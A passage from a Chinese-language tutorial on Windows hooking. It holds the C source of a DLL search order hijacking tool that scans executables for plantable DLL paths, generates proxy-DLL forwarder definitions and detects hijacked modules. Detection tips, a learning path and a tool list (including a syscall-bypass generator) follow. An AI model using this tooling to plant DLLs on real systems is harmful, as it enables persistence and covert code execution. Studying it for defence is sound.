                dllNameA = (char*)((BYTE*)pBase + nameRva - pSec[i].VirtualAddress + pSec[i].PointerToRawData);
break;
            }
        }
if (!dllNameA) { pImport++; continue; }

// 跳过 KnownDlls
BOOL isKnown = FALSE;
for (int k = 0; knownDlls[k]; k++)
if (_stricmp(dllNameA, knownDlls[k]) == 0) { isKnown = TRUE; break; }

if (!isKnown) {
            WCHAR dllNameW[MAX_PATH];
            MultiByteToWideChar(CP_ACP, 0, dllNameA, -1, dllNameW, MAX_PATH);

// 检查应用目录是否已有该 DLL（已有则不是劫持机会）
            WCHAR testPath[MAX_PATH];
            swprintf_s(testPath, MAX_PATH, L"%s\\%s", exeDir, dllNameW);

if (GetFileAttributesW(testPath) == INVALID_FILE_ATTRIBUTES) {
                wcscpy_s(results[found].dllName, MAX_PATH, dllNameW);
                wcscpy_s(results[found].plantPath, MAX_PATH, testPath);
                found++;
            }
        }
        pImport++;
    }

cleanup:
    UnmapViewOfFile(pBase);
    CloseHandle(hMapping);
    CloseHandle(hFile);
return found;
}

// 生成转发 DLL 的 .def 文件（所有导出转发到原始 DLL）
BOOL GenerateForwarderDef(const WCHAR* originalDllPath, const WCHAR* outputDefPath) {
    HMODULE hMod = LoadLibraryExW(originalDllPath, NULL, DONT_RESOLVE_DLL_REFERENCES);
if (!hMod) return FALSE;

    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)hMod;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((BYTE*)hMod + pDos->e_lfanew);
    DWORD exportRva = pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
if (!exportRva) { FreeLibrary(hMod); return FALSE; }

    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hMod + exportRva);
    DWORD* nameRvas = (DWORD*)((BYTE*)hMod + pExport->AddressOfNames);

    FILE* defFile = _wfopen(outputDefPath, L"w");
if (!defFile) { FreeLibrary(hMod); return FALSE; }

// 获取原始 DLL 名（不含扩展名）用于转发
char origName[64];
    WideCharToMultiByte(CP_ACP, 0, wcsrchr(originalDllPath, L'\\') + 1, -1, origName, 64, NULL, NULL);
char* dot = strrchr(origName, '.'); if (dot) *dot = '\0';

    fprintf(defFile, "EXPORTS\n");
for (DWORD i = 0; i < pExport->NumberOfNames; i++) {
char* funcName = (char*)((BYTE*)hMod + nameRvas[i]);
// 转发格式: FuncName = OriginalDll_orig.FuncName
        fprintf(defFile, "    %s = %s_orig.%s\n", funcName, origName, funcName);
    }

    fclose(defFile);
    FreeLibrary(hMod);
return TRUE;
}

// 运行时检测：发现当前进程中被劫持的 DLL
void DetectHijackedModules() {
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, GetCurrentProcessId());
if (hSnap == INVALID_HANDLE_VALUE) return;

    WCHAR sysDir[MAX_PATH];
    GetSystemDirectoryW(sysDir, MAX_PATH);

    MODULEENTRY32W me = { sizeof(me) };
if (Module32FirstW(hSnap, &me)) {
do {
// 如果模块不在系统目录中
if (wcsstr(me.szExePath, sysDir) == NULL) {
// 但系统目录中存在同名文件 -> 可能是劫持
                WCHAR expectedPath[MAX_PATH];
                swprintf_s(expectedPath, MAX_PATH, L"%s\\%s", sysDir, me.szModule);
if (GetFileAttributesW(expectedPath) != INVALID_FILE_ATTRIBUTES) {
                    wprintf(L"[HIJACK DETECTED] %s\n  Loaded: %s\n  Expected: %s\n",
                        me.szModule, me.szExePath, expectedPath);
                }
            }
        } while (Module32NextW(hSnap, &me));
    }
    CloseHandle(hSnap);
}

int wmain(int argc, WCHAR* argv[]) {
if (argc < 2) {
        wprintf(L"DLL Search Order Hijacking Tool\n\n");
        wprintf(L"Usage:\n");
        wprintf(L"  hijack scan <target.exe>    - Find hijack opportunities\n");
        wprintf(L"  hijack def <dll> <out.def>  - Generate forwarder .def\n");
        wprintf(L"  hijack detect               - Check current process\n");
return 1;
    }

if (_wcsicmp(argv[1], L"scan") == 0 && argc >= 3) {
        HIJACK_OPPORTUNITY results[512];
        DWORD count = AnalyzeImports(argv[2], results, 512);
        wprintf(L"\nFound %lu hijackable DLLs for %s:\n\n", count, argv[2]);
for (DWORD i = 0; i < count; i++)
            wprintf(L"  %-30s -> %s\n", results[i].dllName, results[i].plantPath);
    }
else if (_wcsicmp(argv[1], L"def") == 0 && argc >= 4) {
if (GenerateForwarderDef(argv[2], argv[3]))
            wprintf(L"Generated: %s\nCompile: cl /LD proxy.c /DEF:%s\n", argv[3], argv[3]);
else
            wprintf(L"Failed to generate .def\n");
    }
else if (_wcsicmp(argv[1], L"detect") == 0) {
        wprintf(L"Scanning loaded modules...\n");
        DetectHijackedModules();
    }

return 0;
}
```

### 检测方法

* 对比模块加载路径与预期系统路径

* 扫描应用目录中与系统 DLL 同名的可疑文件

* DLL 数字签名验证（合法系统 DLL 都有微软签名）

* 启用 `SafeDllSearchMode`（默认开启）降低 CWD 搜索优先级

* `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`
   保护核心 DLL

* 使用 Process Monitor 观察 DLL 加载失败路径（NAME NOT FOUND）

---

## 本章总结

### 技术选型决策树



### 学习路径建议

| 阶段   | 内容                                      | 目标                |
| ---- | --------------------------------------- | ----------------- |
| 第一阶段 | 1.1 IAT → 1.3 Inline → 1.9 Syscall      | 理解 PE 结构与 Hook 链路 |
| 第二阶段 | 1.4 VEH → 1.6 TLS → 1.8 Instrumentation | 掌握无字节修改的 Hook     |
| 第三阶段 | 1.10 ~ 1.17 注入/劫持类                      | 理解持久化与 DLL 加载机制   |
| 第四阶段 | 结合检测章节 + 实际工具（Detours/MinHook）          | 能独立完成 Hook 工程     |

### 核心认知

1. **用户态 Hook 本质**：修改"调用路径"（IAT/EAT/函数头）或"执行时机"（异常/回调/注入），均在 Ring 3 完成，无法对抗内核级检测。
2. **隐蔽性 ≠ 复杂度**：VEH / Instrumentation Callback 隐蔽性更好，但都有明确检测面（DR 寄存器、EPROCESS 字段）。
3. **现代绕过链**：攻击方用直接 syscall 绕过 ntdll Hook → 防守方在内核/ETW 层监控 → 攻击方用间接 syscall / call stack spoofing 继续对抗。用户态 Hook 只是这条链的第一环。
4. **生产建议**：优先使用成熟库（Detours/MinHook），不要手写指令解析器；废弃技术（Hotpatch/LSP/AppInit）了解原理即可。

### 推荐工具与资源

| 资源                                                        | 用途                   |
| --------------------------------------------------------- | -------------------- |
| [Microsoft Detours](https://github.com/microsoft/Detours) | 工业级 Inline Hook      |
| [MinHook](https://github.com/TsudaKageyu/minhook)         | 轻量 Hook 库            |
| [Zydis](https://github.com/zyantific/zydis)               | 指令反汇编（Trampoline 构建） |
| [SysWhispers3](https://github.com/klezVirus/SysWhispers3) | 直接 syscall 代码生成      |
| Process Monitor / x64dbg                                  | 动态分析 Hook 与 DLL 加载   |
| PE-bear / CFF Explorer                                    | 静态分析 PE 导入/导出表       |

参考链接：https://mp.weixin.qq.com/s/edRWQu4cFuXa-UZsZ92-8g
